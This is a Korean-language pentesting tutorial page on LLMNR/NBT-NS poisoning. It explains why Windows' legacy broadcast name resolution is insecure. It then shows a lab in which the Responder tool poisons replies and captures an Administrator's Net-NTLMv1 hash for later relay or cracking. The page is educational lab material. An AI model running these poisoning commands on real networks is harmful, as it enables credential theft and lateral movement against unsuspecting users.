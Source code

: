 # LLMNR/NBT-NS 포이즈닝

LLMNR/Nbt-NS Poisoning (포이즈닝) - 피해자 호스트의 이름 변화 LLMNR/Nbt-NS 브로드캐스트 요청을 받았을 때 공격자가 LLMNR/Nbt-NS 브로드캐스트 요청에 대답하는 공격이다. 피해자 호스트는 공격자 호스트를 자신이 찾던 호스트로 착각하게 되어 Net-NTLM 인증 트래픽을 공격자에게 보낸다. &#x20;

### 개념

윈도우 워크스테이션과 서버 운영체제에는 LLMNR (Link-Local Multicast Name Resolution)과 Nbt-NS (Netbios Name Service) 라는 레거시 브로드캐스트 (broadcast) 이름 변환 (Name Resolution) 서비스들이 존재한다. 윈도우에서 HTTP나 내부망 쉐어, IP 주소등을 검색하거나 접근하려고 한다면 다음과 같은 우선순위를 기반으로 이름 변환을 시도한다.&#x20;

1. IPv6 - DNS &#x20;
2. IPv4 - DNS&#x20;
3. LLMNR, Nbt-NS, mDNS 등의 레거시 브로드캐스트 이름 변환 서비스 &#x20;

예를 들어 윈도우에서 쉐어를 찾으려고 탐색기에서 `\\fileserver.choi.local\share` 를 검색하려다가 실수로 `\\wronghost.choi.local\share` 를 검색했다고 가정해보자. 그렇다면 현재 호스트는 IPv6 -> IPv4 -> LLMNR, Nbt-NS, mDNS 등의 순서대로 이 호스트를 찾으려고 한다.&#x20;

![IPv4 -> Nbt-NS, mDNS, LLMNR](<../.gitbook/assets/image (2) (1) (2).png>)

### 문제점&#x20;

문제는 LLMNR, Nbt-NS, mDNS 가 옛날에 만들어진, 보안을 생각하지 않고 만든 브로드캐스트 기반의 이름 변환 프로토콜이라는 것이다. 브로드캐스트이기 때문에 같은 서브넷내의 모든 호스트들이 "wronghost.choi.local 이신 호스트 대답 좀 해주세요" 라는 요청을 듣게 된다.&#x20;

레거시 브로드캐스트 프로토콜들은 호스트/사용자 인증을 거치지 않기 때문에 공격자 호스트가 "wronghost.choi.local 찾으세요? 그거 저니까 저한테 사용자 인증 트래픽 보내주세요" 라고 대답할 때 피해자 호스트는 아무런 의심을 하지 않고 Net-NTLM 인증 트래픽을 공격자에게 보내게 된다.&#x20;

### 공격

LLMNR/Nbt-NS 포이즈닝 공격을 통해 피해자 호스트로부터 받은 Net-NTLM 사용자 인증 트래픽은 다음과 같은 공격에 사용된다.&#x20;

* NTLM 다운그레이드 공격 - Net-NTLMv1을 요청하거나 받은 Net-NTLMv1을 암호학적 공격으로 NTLM 해시로 다운그레이드 한 뒤 크래킹하는 공격&#x20;
* NTLM 릴레이 공격 - 받은 Net-NTLM 인증 트래픽을 다른 호스트에게 릴레이 하는 공격&#x20;
* RBCD (Resource Based Constrained Delegation) - TODO&#x20;

LLMNR/Nbt-NS 포이즈닝과 NTLM 릴레이 공격을 하면 피해자 호스트에서 피해자 유저의 사용자 NTLM 인증 트래픽을 SMB 프로토콜 기반의 Net-NTLMv1 혹은 Net-NTLMv2 형식으로 받을 수 있다. 이 사용자 인증 트래픽은 위 공격들에 사용되며, 해당 공격들은 다른 페이지에 따로 서술한다.&#x20;

### 전제 조건

* 현재 서브넷과 DNS로 이름 변환이 불가능한 호스트의 서비스 (대부분 SMB) 를 이용하려 피해자 호스트에서 피해자 유저가 검색한다.&#x20;
  * 실수로 오타 (ex. flieserver), 옛날에 만들어뒀던 scheduled task, 호스트 이름이 바뀌었을 때, 등
* 피해자 호스트가 LLMNR/Nbt-NS 를 사용하도록 설정되어 있다 (윈도우 비스타 이후 기본적으로 활성화되어 있다).&#x20;

### 실습&#x20;

Responder 툴을 이용해 서브넷에서 LLMNR, Nbt-NS, mDNS 트래픽을 수동적으로 듣고만 있는다&#x20;

```
# "Analyze" 모드를 이용, 포이즈닝을 하지않고 트래픽만 확인 
python3 Responder.py -I eth1 -v -A 

<...>
[+] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.
[Analyze mode: NBT-NS] Request by ::ffff:192.168.40.150 for wronghost, ignoring 
[Analyze mode: LLMNR] Request by ::ffff:192.168.40.150 for wronghost, ignoring
```

트래픽을 듣고 있으니`192.168.40.150` 호스트가 Nbt-NS와 mDNS를 이용해 `wronghosts.local` 이라는 호스트를 찾고 있다.&#x20;

이제 능동적으로 포이즈닝 공격을 진행해 피해자 호스트로부터 NTLM 사용자 인증 트래픽을 받아온다.

```
# ESS (SSP) 해제 시도와 함께 포이즈닝 공격 시작 
python3 Responder.py -I eth1 -v --disable-ess

<...>
[*] [MDNS] Poisoned answer sent to fe80::c092:c261:488a:c15c for name wronghost.local
[*] [LLMNR]  Poisoned answer sent to ::ffff:192.168.40.150 for name wronghost 
[SMB] NTLMv1-SSP Client   : fe80::c092:c261:488a:c15c                                                            
[SMB] NTLMv1-SSP Username : CHOI\Administrator                                                                   
[SMB] NTLMv1-SSP Hash     : Administrator::CHOI:06B1649C5 <...>
```

피해자 호스트 `192.168.40.150` 가 `wronghost.local` 이 공격자 호스트인줄 알고 NTLM 사용자 인증을 보내왔다. 이제 이 Net-NTLMv1 해시를 가지고 NTLM 릴레이, 다운그레이드, RBCD 공격을 할 수 있게 됐다.&#x20;
